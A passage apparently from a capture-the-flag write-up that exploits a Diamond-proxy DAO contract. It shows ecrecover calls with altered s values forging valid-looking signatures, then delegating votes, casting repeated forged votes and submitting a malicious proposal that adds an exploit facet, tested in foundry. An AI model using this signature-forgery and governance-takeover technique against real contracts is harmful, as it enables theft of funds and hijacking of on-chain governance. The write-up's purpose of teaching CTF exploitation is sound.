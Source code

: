 Even I changed the message hash and s of the signature, it will still return an address that is not address(0)
```
➜ ecrecover(keccak256("\x19Ethereum Signed Message:\n32"), 27, 0x987faeb9c51477cccee2867916547eaabbdad70489f2269ccf92a9bbf9d35cc0, 0x3b1ae5d44573c6a572c750f6eef7ebba3430cb2c34afb0635cc5b08b91274b28)
Type: address
└ Data: 0x94850bf894ac067d9943566f3b65f734d4cb0392

➜ ecrecover(keccak256("\x19Ethereum Signed Message:\n32"), 27, 0x987faeb9c51477cccee2867916547eaabbdad70489f2269ccf92a9bbf9d35cc0, 0x3b1ae5d44573c6a572c750f6eef7ebba3430cb2c34afb0635cc5b08b91274b27)
Type: address
└ Data: 0x91fe6db27acbedd14b7262d2b891fb74522551f2
```

But if we change r of the signature, it will return address(0), so just change s
```
➜ ecrecover(keccak256("\x19Ethereum Signed Message:\n32"), 27, 0x987faeb9c51477cccee2867916547eaabbdad70489f2269ccf92a9bbf9d35cc1, 0x3b1ae5d44573c6a572c750f6eef7ebba3430cb2c34afb0635cc5b08b91274b28)
Type: address
└ Data: 0x0000000000000000000000000000000000000000
```

It will call getPriorVotes() to determine how many votes we can add

We have 10000 ether of FTC token, so just call delegate() to delegate ourselves
```solidity
    function delegate(address _delegatee) public {
        return _delegate(msg.sender, _delegatee);
    }
```

Then wait for one block after delegate(), then getPriorVotes() will return 10000 ether of votes

It will check to see it is larger or equal to the threshold, which is set in InitDiamond
```
        s.voteThreshold = 10_000 ether;
```

We excatly have enough votes to vote, and it will check that it's before endBlock of the proposal, so we have to vote before 6 blocks after the submission of the proposal

We have 10000 ether of votes, and we just need 100000 votes, so just vote for many times with different signature that ecrecover won't return address(0)

After our malicious proposal has enough votes, just wait until 6 blocks after the submission, then we can execute it, and our malicious facet can be added to the diamond

So I will test it with foundry test first, and I found an issue in executeProposal()

I submit the proposal with this :
```solidity
uint256 proposalId = DAOFacet(pigeonDiamond).submitProposal(address(0), hex"", IDiamondCut.FacetCut(address(exploit), IDiamondCut.FacetCutAction.Add, selectors));
```

It gives error that the facet address is address(0), but I just put address(0) as the target address that is used to initialize the facet, and if it's address(0) it won't initialize
